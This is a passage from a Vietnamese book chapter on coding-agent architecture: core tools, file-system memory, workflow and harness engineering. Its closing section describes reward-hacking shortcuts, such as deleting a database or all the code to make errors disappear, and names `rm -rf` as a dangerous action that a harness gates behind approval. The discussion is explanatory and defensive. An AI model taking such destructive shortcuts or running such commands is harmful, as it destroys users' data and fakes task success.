# Chương 5: Coding Agent & Code Generation

Các chương trước đã đi sâu vào context engineering (Chương 2 và 3) cùng tool design (Chương 4). Chương này sẽ kết hợp các building block đó lại để trả lời câu hỏi cốt lõi: **Kiến trúc của một general-purpose Agent có khả năng xử lý các tác vụ tùy ý sẽ trông như thế nào?**

Câu trả lời là: **Một general-purpose Agent hướng tới các open-ended tasks** có phần lõi là một **Coding Agent** (một Agent có khả năng tự chủ write, modify và execute code) kết hợp cùng một **file system** — workspace nơi Agent lưu trữ code, data, memory và các intermediate results, tương tự cách một lập trình viên quản lý dự án bằng các thư mục trên máy tính. Từ Manus đến OpenClaw, các open-ended general-purpose Agents thành công đều tuân theo paradigm này.

Tại sao code generation có thể gánh vác trọng trách này? Bởi vì nó không đơn thuần là một tool, mà là một **meta-capability** — khả năng khởi tạo dynamic các tool và capability mới ngay tại runtime. Nửa sau của chương này sẽ phát triển trọn vẹn khái niệm đó, cùng với 6 hướng ứng dụng của nó.

Code phục vụ Agent ở hai cấp độ. Với vai trò là phương tiện để **suy luận (thinking)**, code áp đặt tính chặt chẽ — mệnh đề "tuổi lớn hơn 18 và đã xác minh danh tính" có thể có nhiều cách hiểu trong natural language, nhưng khi viết thành code, nó chỉ có duy nhất một nghĩa. Với vai trò là phương tiện để **biểu đạt (expression)**, đoạn code thực thi được chính là bằng chứng tự thân cho tính logical consistency, và execution result của nó mang lại một tiêu chuẩn khách quan về tính đúng đắn.

Chương này bắt đầu với các capability cơ bản của một Coding Agent và kiến trúc general-purpose Agent (OpenClaw), sau đó chứng minh ứng dụng của code generation trong nhiều scenario khác nhau — từ mathematical reasoning và content creation cho đến các meta-capabilities cấp hệ thống.

## Coding Agent

### Coding như một Foundational Agent Capability

**Code generation không phải là đặc quyền của một số ít specialized Agents, mà là một foundational capability mà mọi general-purpose Agent đều phải sở hữu.** Với các SOTA models hiện nay, việc trang bị cho một Agent khả năng coding cơ bản không đòi hỏi bất kỳ kiến trúc phức tạp nào.

Hãy xem xét một task điển hình: "Tổng hợp tất cả các TODO comment còn sót lại trong repository, phân loại theo priority, và generate các issue." Để hoàn thành task này, hệ thống cần duyệt qua directory structure (ls/glob), đọc code (read), chỉnh sửa file (edit/write), chạy command (bash), và tìm kiếm pattern (grep/search). Năm nhóm thao tác này bao quát gần như mọi core action của một Coding Agent, và chúng cũng chính là nguồn gốc của 7 tool dưới đây. Nói một cách chặt chẽ, 5 nhóm thao tác này map tự nhiên thành 6 tool; tool thứ bảy, Code Interpreter, đảm nhiệm các thao tác "execute code / compute" và trong một số implementation thường được gộp chung vào Bash — 7 tool này đóng vai trò là một reference set đã được chuẩn hóa, chứ không phải là phép ánh xạ 1-1 cứng nhắc từ 5 nhóm thao tác trên.

Một Coding Agent cơ bản chỉ cần được trang bị 7 core tools sau:

1. **Code Interpreter**: Cung cấp một sandbox cô lập (một runtime an toàn được tách biệt khỏi host system), nơi Python code có thể chạy an toàn mà các lỗi thực thi không gây ảnh hưởng đến host
2. **Bash Shell**: Thực thi các lệnh trong terminal, chẳng hạn như chạy test cases hoặc xử lý các file có định dạng đặc thù
3. **Read File Tool**: Đọc code, configuration, tài liệu kỹ thuật, logs, v.v.
4. **Write File Tool**: Tạo file mới hoặc ghi đè hoàn toàn lên các file hiện có
5. **Edit File Tool**: Thực hiện sửa đổi cục bộ trên các file hiện có, một thao tác cốt lõi cho việc bảo trì và iterate code
6. **Search File Name Tool (Glob)**: Định vị nhanh các target file trong file system thông qua pattern matching, ví dụ sử dụng `**/*.py` để tìm toàn bộ Python files trong project
7. **Search File Content Tool (Grep)**: Tìm kiếm các text pattern cụ thể bên trong nội dung file, ví dụ tìm tất cả các dòng code đang gọi một function nhất định

Bảy tools này cấu thành một toolbox vừa hoàn chỉnh vừa tối giản (minimal) mà hầu như bất kỳ Agent system nào cũng có thể tích hợp với chi phí thấp (low cost).

Lưu ý rằng tool set này là cấu hình cơ sở (base configuration) dành riêng cho Coding Agent, khác với 5 nhóm công cụ tổng quát trong Chương 4 vốn được phân loại theo call direction và bản chất tác động (perception / execution / collaboration / event-triggered / user communication). Bảy core tools này chủ yếu bao quát perception và execution. Collaboration, event handling và user communication vẫn sẽ cần các công cụ bổ sung, nhưng chúng nằm ngoài phạm vi core tool set của một Coding Agent.

Để thấy cách 7 tools này phối hợp với nhau, hãy xem xét một task đơn giản nhất. Giả sử user yêu cầu: "Help me compile a list of all TODO comments in the project":

```text
Agent (thinking): Need to find all code lines containing TODO.
Agent → Grep("TODO", glob="**/*.py")          # Search file content
Tool returns:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent (thinking): Found 3 TODOs, compile them into a list and write to a file.
Agent → Write("TODO_LIST.md", content="...")   # Write file
Tool returns: File created

Agent: Done. Found 3 TODO items, the list is saved in TODO_LIST.md.
```

Toàn bộ process này chỉ sử dụng hai tool: Grep (search content) và Write (write file). Nếu task phức tạp hơn — chẳng hạn như "đếm số lượng TODO theo từng module và vẽ bar chart" — Agent sẽ dùng thêm Code Interpreter để execute code Python phục vụ việc thống kê và vẽ biểu đồ. Từng tool riêng lẻ trong bộ bảy tool này rất đơn giản; nhưng khi kết hợp lại, chúng có thể cover một phạm vi task rộng lớn đến kinh ngạc.

Độc giả có thể thắc mắc: tại sao lại là bảy tool mà không phải sáu? Trên thực tế, chỉ một tool Bash duy nhất đã có thể cover hầu hết các operation. Toolset của OpenAI Codex cực kỳ tinh gọn: shell là entry point thực thi general-purpose duy nhất của nó, dùng để browse thư mục, tìm file và đọc file thông qua các command; việc chỉnh sửa file được giao cho tool `apply_patch` bị ràng buộc về cú pháp (syntax-constrained), giúp biểu diễn một chỉnh sửa dưới dạng structured patch thay vì một text command tự do, từ đó giảm thiểu rủi ro sửa nhầm file. Tuy nhiên, các Agent khác vẫn duy trì các tool chuyên dụng riêng cho việc đọc file và ghi file. Bảy tool trong cuốn sách này được tách biệt rõ ràng nhằm giúp người đọc dễ dàng nắm bắt các capability cơ bản mà một Coding Agent cần có.

Tại sao mọi general-purpose Agent đều cần có coding ability? Bởi vì code generation không đơn thuần là viết chương trình — đó là một phương thức general-purpose để giải quyết vấn đề. Khi đối mặt với một bài toán toán học, Agent có thể viết code và chuyển cho solver để lấy kết quả chính xác; khi cần xác định rõ một business rule, code mang tính chính xác cao hơn bất kỳ mô tả bằng natural-language nào; khi thiếu một tool, nó có thể tự viết ngay tại chỗ; khi data format thay đổi, nó có thể sinh ra parsing logic mới. Các phần tiếp theo sẽ lần lượt phân tích từng kịch bản này. Một Agent sở hữu coding ability cơ bản — ngay cả khi chỉ được trang bị vỏn vẹn bảy tool đơn giản ở trên — đều có thể mở rộng capability của mình bất cứ khi nào phát sinh nhu cầu mới.

### Case Study: Từ Manus đến OpenClaw — Coding Core của General-Purpose Agents

Các sản phẩm general-purpose Agent như Manus và OpenClaw kết hợp ba capability chính — Deep Research, Computer Use và Coding — vào trong một hệ thống duy nhất. Vậy tại sao phần mở đầu chương này lại khẳng định Coding Agent mới là hạt nhân (core), chứ không phải hai capability còn lại?

Bởi vì hầu như mọi quy trình content generation hiệu quả cuối cùng đều quy về code. Các bài thuyết trình PowerPoint và tài liệu Word về bản chất chính là code ở định dạng OOXML (Office Open XML, chuẩn mở của Microsoft dành cho tài liệu văn phòng). Các báo cáo PDF có thể được generate thông qua Markdown, HTML hoặc LaTeX; các Python script có thể thực hiện data analysis và visualization; thậm chí chuỗi browser-operation thành công từ GUI work cũng có thể được ghi lại dưới dạng reusable code (xem Chương 9). Quá trình search và tổng hợp thông tin của Deep Research có thể được triển khai thông qua các web request và parsing điều khiển bằng code. Computer Use linh hoạt hơn, nhưng việc gọi trực tiếp qua code hoặc API nhìn chung luôn rẻ hơn, nhanh hơn và tin cậy hơn cho các operation tương đương. Code generation chính là nền tảng capability hiệu quả nhất, chi phí tối ưu nhất và có khả năng tái sử dụng cao nhất.



Hãy hiểu kiến trúc này thông qua một execution flow cụ thể. Giả sử user yêu cầu: "Help me analyze last quarter's sales data and create a summary report."

1. **Read Memory**: Agent đọc file `MEMORY.md` và phát hiện ra user ưu tiên báo cáo ở format PDF và data source nằm trên Google Sheets.
2. **Call Tools**: Lấy tài liệu hướng dẫn sử dụng Google Sheets API thông qua web search module, sau đó tải data về thông qua code execution.
3. **Write Code**: Sinh script phân tích dữ liệu bằng Python (pandas aggregation, matplotlib visualization).
4. **Generate Artifacts**: Ghi kết quả phân tích vào `report.pdf`, lưu các chart vào thư mục `charts/`.
5. **Update Memory**: Ghi nhận vào `MEMORY.md` rằng "User's sales data is in Google Sheets, ID: xxx" để không cần phải hỏi lại ở các lần thực thi tiếp theo.

Xuyên suốt quy trình, file system đóng vai trò là hub trung tâm của information flow — memory được đọc từ file, artifact được ghi ra file, và kinh nghiệm tích lũy cũng được lưu trữ dưới dạng file.

**File System với vai trò Central Hub của Agent.** Trong thiết kế của OpenClaw, file system vượt xa vai trò của một kho lưu trữ dữ liệu thông thường — nó là central hub cho memory, knowledge và capability của Agent. Long-term Memory của Agent được lưu trữ trong `MEMORY.md` (các high-level fact và user preference) cùng các Markdown log được archive theo ngày. Lựa chọn Markdown thay vì Vector Database thoạt nhìn có vẻ phản trực giác, nhưng lại mang lại hiệu quả vượt trội: user có thể trực tiếp mở file để đọc và chỉnh sửa memory của Agent (nếu Agent nhớ sai thông tin, chỉ cần xóa dòng đó), Markdown bảo toàn thứ tự thời gian một cách tự nhiên giúp triệt tiêu tình trạng nhầm lẫn mốc thời gian (temporal confusion) thường gặp trong semantic retrieval, đồng thời hỗ trợ version control và rollback thông qua Git.

Đặc biệt quan trọng hơn, nhờ khả năng ghi file, Agent sở hữu phương tiện kỹ thuật để can thiệp và chỉnh sửa các external artifact của chính nó. Khi một Agent thực thi một task lần đầu tiên và phát hiện ra thông tin then chốt chưa từng được nạp trước đó — ví dụ: khi gọi tới một ngân hàng cụ thể, nó nhận ra hệ thống yêu cầu cung cấp địa chỉ chi nhánh để xác thực danh tính — bước đầu nó có thể ghi nhận phát hiện này vào một record. Việc xác định khi nào một record như vậy đạt đủ độ tin cậy để trở thành reliable knowledge, một instruction hay một chương trình độc lập vẫn đòi hỏi thêm các trajectory bổ sung và outcome validation. Đây chính là bài toán về continuous evolution được thảo luận chi tiết trong Chương 9.

**Applicability Boundary: Những Agent nào lấy Coding làm Core Architecture.** Nhận định "Coding Agent là hạt nhân của một general-purpose Agent" chủ yếu áp dụng cho **các general-purpose Agent xử lý open-ended task** — các kịch bản như deep research, content generation và data processing, nơi ranh giới của task không cố định và định dạng artifact đầu ra rất đa dạng. Trong các kịch bản này, việc định nghĩa trước toàn bộ tool là bất khả thi; code generation, với tư cách là một meta-capability, cung cấp giải pháp tối ưu và tiết kiệm chi phí nhất để mở rộng dynamic capability boundary, khiến nó trở thành core của toàn bộ kiến trúc. Ngược lại, các vertical-domain customer-service Agent hoạt động trong không gian task space tương đối khép kín, với core architecture được thiết kế xoay quanh các business process cố định, domain tool và dialogue strategy; ở trường hợp này, code chỉ đóng vai trò là một tool trong toolbox thay vì là architectural hub. Tuy nhiên, ngay cả ở mô hình sau, coding vẫn là một foundational capability then chốt: các tác vụ tính toán chính xác, data processing và rule verification đều bắt buộc phải dựa vào nó.

### Workflow tổng thể của một Coding Agent



**Project Documentation.**

Công việc của một Coding Agent bắt đầu bằng việc hiểu dự án một cách có hệ thống. Khi một Agent tiếp cận một code repository lần đầu tiên, nhiệm vụ đầu tiên của nó không phải là nhảy vào sửa code ngay, mà là xây dựng một cognitive framework cho toàn bộ dự án—tương tự như một kỹ sư mới vào không push code ngay trong ngày đầu, mà bắt đầu bằng việc tìm hiểu tổng quan hệ thống. Agent sẽ bắt đầu bằng cách kiểm tra xem dự án đã có documentation hay chưa—chẳng hạn như README, các tài liệu architecture design, hay developer guides.

Nếu thiếu các tài liệu cốt lõi, Agent không nên bắt đầu làm việc một cách mù quáng. Thay vào đó, nó nên kiểm tra codebase một cách có hệ thống, xác định các module chính, các core abstraction, và dependency giữa các component, sau đó phác thảo một bản tổng quan kiến trúc (architecture overview), hướng dẫn cấu trúc thư mục (directory guide), cùng các chỉ dẫn chạy test. Những tài liệu này đóng vai trò như một blueprint cho các tác vụ tiếp theo của Agent, đồng thời cung cấp một entry point thuận tiện cho các developer khác. Điều này thể hiện một nguyên tắc cốt lõi: biến tri thức dự án thành dạng tường minh (explicit knowledge) là điều kiện tiên quyết để cộng tác hiệu quả.

Project documentation hiện nay đã xuất hiện một định dạng chuyên biệt dành riêng cho Agent: **Project Instruction Files**. Các file như `CLAUDE.md`, `AGENTS.md`, `.cursorrules` đã trở thành tiêu chuẩn de facto của ngành—chúng được tự động inject vào context ngay đầu mỗi session, hoạt động như các system prompt ở cấp độ dự án (project-level). Khác với README vốn dành cho người đọc, các instruction file này chứa đựng các quy ước hành vi (behavior conventions) dành cho Agent: các lệnh build và test ("sử dụng `pnpm test` thay vì `npm test`"), code style ("tránh dùng type `any`"), và các khu vực cấm rõ ràng ("không được chỉnh sửa thư mục `migrations/`"). Đây cũng chính là ý tưởng từ `SOUL.md` (định nghĩa danh tính và quy tắc hành vi của Agent) và `MEMORY.md` (tích lũy kinh nghiệm cross-session) của OpenClaw, nhưng được áp dụng ở các tầng khác nhau: `SOUL.md` định nghĩa "Agent là ai", trong khi các project instruction file định nghĩa "làm việc trong dự án này như thế nào". Dưới góc nhìn của context engineering ở Chương 2, các instruction file cũng là dạng stable prefix tiết kiệm chi phí nhất—nội dung của chúng không thay đổi theo từng task, giúp chúng tự nhiên thân thiện với KV Cache (KV Cache-friendly); đồng thời, đây cũng là cách hiện thực hóa trực tiếp nhất nguyên tắc "tri thức phải nằm ngay bên trong chính codebase".

Đây chính là điểm mà nhận định ở Chương 2—"một đội ngũ thân thiện với remote work thường cũng sẽ thân thiện với AI Agent"—được áp dụng cụ thể ở cấp độ code repository: các quyết định được ghi lại trong tài liệu, context được viết rõ trong mô tả của issue và PR, kinh nghiệm nội bộ được đúc kết thành developer guide, để Agent có thể đọc và hiểu được toàn bộ ngữ cảnh. Từ đó rút ra một thước đo đơn giản để đánh giá mức độ "AI-ready" của một team: **liệu một nhân sự mới làm việc remote, chỉ dựa vào repository và documentation, có thể bắt đầu làm việc độc lập được hay không?**

**Thấu hiểu Task và Làm rõ Requirement.**

Đối với các requirement đơn giản có boundary rõ ràng và phạm vi tác động giới hạn—chẳng hạn như fix một bug đã biết hay điều chỉnh parameter của một function—Agent có thể tiến thẳng vào phase implementation. Tuy nhiên, phần lớn các task trong phát triển phần mềm không hề đơn giản như vậy.

Với các requirement phức tạp, Agent cần phải cẩn trọng và có phương pháp bài bản hơn. Độ phức tạp có thể xuất phát từ nhiều chiều hướng: sự mơ hồ của chính requirement (user biết họ muốn gì nhưng không thể diễn đạt một cách chính xác), sự đa dạng của các hướng implementation (nhiều giải pháp kỹ thuật đi kèm các trade-off riêng), hoặc phạm vi ảnh hưởng rộng (đòi hỏi chỉnh sửa trên nhiều module, tiềm ẩn rủi ro làm break các functionality hiện có). Agent nên làm rõ boundary thông qua exploratory research và chủ động trao đổi với user khi cần thiết. Ví dụ, khi user yêu cầu "optimize performance của hệ thống", Agent trước tiên cần xác định mục tiêu cụ thể (giảm response time, giảm memory usage hay tăng throughput), những trade-off nào là chấp nhận được (chẳng hạn như việc gia tăng complexity của code có được chấp nhận hay không), và bottleneck hiện tại đang nằm ở đâu. Bắt tay vào viết code khi requirement còn mơ hồ thường sẽ dẫn đến khối lượng rework rất lớn.

**Viết Design Document.**

Design document đóng vai trò như chiếc cầu nối chuyển dịch các requirement trừu tượng thành một implementation plan cụ thể. Nó cần trả lời được 4 câu hỏi cốt lõi: những module nào cần chỉnh sửa và lý do, nên lựa chọn approach nào cùng những trade-off đi kèm, cần thêm những dependency mới nào, và những thay đổi đó dự kiến sẽ tác động ra sao đến hệ thống. Bản thân việc viết một design document đã là một quá trình deep thinking—nó buộc Agent phải validate tính khả thi của giải pháp về mặt khái niệm trước khi đầu tư quá nhiều nguồn lực vào việc code. Quan trọng hơn, design document tạo ra một intervention point hiệu quả cho con người—review một design document ngắn gọn dễ dàng hơn rất nhiều so với việc review hàng trăm dòng code. Sau khi hoàn thành design document, Agent cần gửi cho user review và chờ approval trước khi tiếp tục triển khai.

**Code Implementation và Testing.**

Sau khi nhận được approval cho thiết kế, Agent sẽ tuân thủ coding conventions của project để tiến hành implementation, tái sử dụng các abstraction và tool sẵn có, đồng thời thực hiện refactor ở mức độ vừa phải khi cần thiết nhằm duy trì tính ổn định của codebase.

Sau khi hoàn tất implementation, Agent ngay lập tức bước vào phase quality assurance theo định hướng test-driven—viết các test case cho functionality mới hoặc vừa được chỉnh sửa, bao quát các normal path, boundary condition và error scenario. Sau khi viết test xong, Agent tiến hành chạy test suite. Nếu test fail, Agent không nên chỉ đơn thuần báo lỗi về cho user, mà cần phân tích nguyên nhân, định vị vấn đề và chỉnh sửa code cho đến khi tất cả các test đều pass. Vòng lặp "test-fix" này có thể cần qua nhiều iteration, và chính khả năng self-correction này đã nâng tầm một Coding Agent từ một code generator đơn thuần trở thành một engineering assistant đáng tin cậy. Ngược lại, biểu hiện trốn tránh phổ biến nhất của một Coding Agent là bỏ qua hoàn toàn giai đoạn này—chỉ viết code rồi báo "task complete" mà không hề chạy test. Việc định nghĩa tiêu chuẩn hoàn thành là "test pass" thay vì "đã viết xong code" chính là việc áp dụng nguyên lý cốt lõi của Loop Engineering vào coding: để quá trình verification quyết định thời điểm dừng an toàn.

Ngay cả khi toàn bộ test đều pass, công việc của Agent vẫn chưa dừng lại. Phase tiếp theo là code review: Agent tự đánh giá phản biện lại phần code do chính mình sinh ra. Code có dễ đọc và được comment đầy đủ hay không? Có tiềm ẩn performance problem hay security vulnerability nào không? Nó có tuân thủ code style và best practice của project không? Quá trình self-review này có thể thực hiện bằng cách đọc lại code, chạy các lint tool, hoặc gọi một sub-agent chuyên trách code review. Nếu quá trình review phát hiện vấn đề, Agent phải quay lại phase chỉnh sửa và fix lỗi, thay vì bàn giao đoạn code khiếm khuyết cho user.

**Documentation Synchronization and Delivery.**

Nếu các thay đổi về code liên quan đến những thay đổi về mặt architecture—chẳng hạn như việc đưa vào một module mới, thay đổi dependencies giữa các modules, hoặc làm biến đổi semantics của các core abstractions—Agent cần cập nhật architecture documentation tương ứng. Documentation lỗi thời còn tệ hơn là không có documentation, bởi nó sẽ dẫn dắt sai lệch các developers tiếp quản sau này. Bằng cách tự động cập nhật documentation sau mỗi thay đổi lớn, Agent giúp duy trì tính toàn vẹn (integrity) và tính kịp thời của knowledge base trong dự án.

Workflow này thể hiện các nguyên tắc cốt lõi của software engineering: planning đi trước action, verification diễn ra xuyên suốt, và documentation tiến hóa song hành cùng với code.

Lưu ý rằng quy trình được mô tả ở trên là một **recommended engineering workflow**. Các Coding Agents trong thực tế (chẳng hạn như Claude Code và Codex) sẽ tinh giản (trim) nó tùy theo nhu cầu: một task bug-fix đơn giản sẽ bỏ qua bước tạo design document, trong khi chỉ các tasks phức tạp, có phạm vi ảnh hưởng rộng mới phải đi qua đầy đủ từng stage.

Các models khác nhau sẽ trim workflow này theo những cách khác nhau. Một số Coding models sẽ đọc bao quát toàn bộ repository structure, implementation, callers và tests trước khi thực hiện lượt edit đầu tiên. Những models khác lại chỉ inspect một vài files có khả năng quan trọng nhất, tạo một early patch, và coi feedback từ compiler cũng như test là một phần của quá trình điều tra (investigation). Ngưỡng (threshold) quyết định thời điểm dừng việc thu thập thông tin để bắt đầu action này có thể tiếp tục gắn liền với model ngay cả sau khi harness thay đổi, và có thể thay đổi khi model được swap bên trong cùng một harness. Do đó, đây trước hết và quan trọng nhất là một **learned model behavior**, chứ không đơn thuần chỉ là interface style của một Coding product. Prompts, tools và budgets trong harness vẫn có thể amplify hoặc suppress hành vi này, nhưng không nhất thiết phải là nguồn gốc sinh ra nó. Chương 7 đo lường sự khác biệt này trong một fixed harness; Chương 8 sau đó sẽ giải thích cách thức post-training có thể ghi một policy như vậy vào thẳng các parameters.

### Harness Engineering in Practice cho Coding Agents

Chương 1 đã giới thiệu khái niệm Harness Engineering và công thức **Agent = Model + Harness**. Harness ở đây bao gồm context và tools từ công thức cốt lõi, cùng với các cơ chế constraints, verification và correction—năm yếu tố này cùng nhau cấu thành nên Harness như đã định nghĩa ở Chương 1. Coding Agents có lẽ là lĩnh vực mà Harness Engineering mang lại hiệu quả cao nhất—viết code là tác vụ **dễ verify nhất (most verifiable)** trong tất cả các tasks của Agent, đồng thời constraints, verification và correction của nó đều có thể tận dụng hạ tầng sẵn có (existing infrastructure). Phần này tập trung vào thực tiễn triển khai cụ thể trong kịch bản Coding Agent.

Việc một hệ thống có vận hành ổn định hay không thường phụ thuộc ít hơn vào sức mạnh của model, mà phụ thuộc nhiều hơn vào độ vững chắc (robustness) của infrastructure được xây dựng xung quanh Agent. Chương 1 chia Harness thành hai tầng—**Context and Tools** (cho phép Agent hành động) và **Constraints, Verification, and Correction** (giúp Agent hành động an toàn và chính xác). Trong kịch bản Coding Agent, những yếu tố này được cụ thể hóa thành các engineering components chuyên biệt:

- **Acceptance Baseline**: Điều gì cấu thành nên trạng thái "done"—test suites, CI pipeline (Continuous Integration pipeline, chuỗi các bước kiểm tra tự động chạy sau khi submit code), các tiêu chuẩn code review
- **Execution Boundary**: Những gì Agent có thể và không thể can thiệp—module boundaries, dependency rules, permission controls
- **Feedback Signals**: Các phán đoán tính chính xác tự động—output của Linter (công cụ kiểm tra code style có khả năng tự động phát hiện lỗi formatting và các vấn đề tiềm ẩn), test results, các lỗi type checking
- **Rollback Mechanism**: Cách thức phục hồi nếu có sự cố xảy ra—Git version control, sandbox isolation, snapshot rollback

**Tại sao Coding Agents đặc biệt phù hợp với Harness Engineering.**

Hai chiều không gian — mức độ rõ ràng của mục tiêu (goal clarity) và mức độ tự động hóa của khâu kiểm chứng (verification automation) — chia các task thành bốn trạng thái. Một mục tiêu rõ ràng đi kèm kết quả có thể verify tự động là vùng đất để các Agent phát huy tối đa hiệu quả; một mục tiêu rõ ràng nhưng việc nghiệm thu vẫn phụ thuộc vào mắt người sẽ giới hạn throughput ở tốc độ manual review của con người; automated feedback đi kèm với một mục tiêu mơ hồ sẽ khiến hệ thống chạy rất hiệu quả nhưng lệch hướng; còn khi thiếu cả hai yếu tố, Agent gần như vô dụng. Bảng 5-1 thể hiện bốn trạng thái này. Mục tiêu của Harness là đưa càng nhiều task càng tốt vào góc phần tư "mục tiêu rõ ràng + automated verification".

Bảng 5-1 Bốn góc phần tư của Task Clarity và Verification Automation

| | Kết quả có thể verify tự động | Kết quả yêu cầu manual verification |
|---|---|---|
| **Mục tiêu rõ ràng** | Sweet spot: fix bug với test cases | Bị giới hạn throughput: code refactoring yêu cầu manual review |
| **Mục tiêu mơ hồ** | Lệch hướng một cách hiệu quả: tối ưu hóa "code quality" bằng linter | Rất khó bắt đầu: "làm cho UI trông đẹp hơn" |

Các task viết code hiển nhiên chiếm lĩnh góc phần tư "mục tiêu rõ ràng + automated verification" — các test suite cung cấp acceptance criteria rõ ràng, linter và type checker đem lại khả năng automated verification tức thì, và Git cung cấp năng lực version control cùng rollback hoàn hảo. Điều này giải thích tại sao Coding Agents hiện là loại Agent phát triển hoàn thiện nhất trong tất cả các dạng Agent: không phải vì các model sinh code đặc biệt mạnh mẽ, mà vì hạ tầng software engineering qua nhiều thập kỷ đã tự nhiên cấu thành một Harness vô cùng vững chắc.

**Industry Practice.**

Ba case study thực tiễn về Harness củng cố các nguyên lý trên:

- **Case study migration code quy mô lớn** (từ thực tiễn migration code quy mô lớn được chia sẻ công khai của một tech company lớn): Chìa khóa không nằm ở năng lực của model, mà ở việc Harness đã làm đúng ba điều — tri thức phải tồn tại ngay bên trong codebase (những gì Agent không nhìn thấy thì coi như không tồn tại), các ràng buộc (constraints) được mã hóa trực tiếp vào linter và CI thay vì chỉ viết trong documentation, và các khâu verification cùng correction được tự động hóa hoàn toàn end-to-end.
- **LangChain**: Cải thiện đáng kể performance trên các benchmark task chỉ nhờ việc tối ưu hóa Harness (system prompts, tool middleware, self-verification loops). Đáng chú ý nhất là phương pháp luận "sử dụng một Agent để phân tích các failure trajectories nhằm cải tiến Harness", chuyển dịch Harness engineering từ định hướng theo kinh nghiệm (experience-driven) sang định hướng theo dữ liệu (data-driven).
- **Anthropic**: Tách các long task thành hai vai trò — một initialization Agent chịu trách nhiệm bẻ nhỏ các task lớn thành một task list, và một execution Agent chịu trách nhiệm thực thi từng bước một, bàn giao các kết quả trung gian (chẳng hạn như các code file đã hoàn thành và task list đã được cập nhật) cho round tiếp theo tiếp tục sử dụng. Cách phân chia trách nhiệm này giải quyết triệt để bài toán các long-running Agents "cố làm quá nhiều việc cùng một lúc" hoặc "tuyên bố hoàn thành quá sớm (claiming completion prematurely)".

**Từ Coding Agent đến các General Harness Design Principles.**

Các thực tiễn triển khai Harness của Coding Agent mang lại những design principle có thể áp dụng cho toàn bộ các Agent system:

1. **Constraints over guidance**: Những rule có thể cưỡng chế bằng code cần phải được encode trực tiếp vào code, thay vì chỉ dừng lại ở mức gợi ý trong documentation. Giá trị của linter rules, type constraints và CI checks vượt trội hoàn toàn so với các câu hướng dẫn kiểu "please follow..." trong system prompt—nhóm trước mang tính chất "không thể thực hiện (cannot be done)", trong khi nhóm sau chỉ đơn thuần là "không khuyến khích (advised against)".
2. **Automate verification**: Manual review là một bottleneck không thể scale. Việc đầu tư vào test suites, code quality checks và behavior monitoring mang lại ROI vượt trội hơn nhiều so với việc bổ sung nhân lực thủ công.
3. **Feedback should be as fast and structured as possible**: Error message càng chi tiết và càng được trả về sát với thời điểm phát sinh lỗi bao nhiêu, Agent càng có khả năng self-correction hiệu quả bấy nhiêu. Các kỹ thuật Agent status bar từ Chapter 2 (error message chi tiết, tool call counters) chính là hiện thân trực tiếp của nguyên tắc này.
4. **Rollback must be reliable**: Agent chỉ có thể tự tin experiment khi được vận hành trong một safety net an toàn. Git branches, sandbox environments và snapshot mechanisms đảm bảo mọi error đều có thể reverse một cách tin cậy.

**Mục đích sâu xa của constraints: ngăn chặn process errors.** Acceptance baseline đóng vai trò kiểm soát kết quả đầu ra (outcome) có chính xác hay không; trong khi execution boundary kiểm soát toàn bộ **process**—ngay cả một outcome đúng cũng không thể biện minh cho một phương pháp sai. Việc xóa và rebuild lại database để "sửa" một lỗi database fault đúng là có khắc phục được lỗi, nhưng toàn bộ dữ liệu đã bị xóa sổ; việc xóa toàn bộ code để vượt qua compilation error đúng là giúp compilation pass, nhưng implementation đã không còn. Những destructive shortcuts như vậy luôn tồn tại: ngay cả khi đã cấu hình đầy đủ restriction vào evaluation metrics cuối cùng, Agent vẫn thường tìm ra kẽ hở để vượt qua—đây là biểu hiện điển hình của reward hacking (Chapter 8) trong các Agent task. Do đó, một production Harness luôn thiết lập các layer check và approval chuyên dụng cho các action nguy hiểm như `rm -rf`, xóa production data, hoặc overwrite một file chưa được đọc (áp dụng semantic parsing trong phần security của chương này, Sidecar review trong Chapter 4), nhằm đặt constraint 